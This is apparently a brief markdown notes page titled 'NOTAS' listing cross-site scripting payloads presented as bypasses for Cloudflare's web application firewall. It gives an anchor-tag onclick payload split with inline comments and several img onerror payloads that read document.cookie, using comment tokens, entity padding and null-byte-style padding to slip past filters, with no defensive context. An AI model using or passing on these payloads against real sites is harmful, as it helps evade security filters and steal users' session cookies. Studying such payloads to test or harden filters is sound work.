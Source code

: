 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> 
"/**/>/**/<img src=P onerror=alert&#0000000040document.cookie)/**/> "
&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
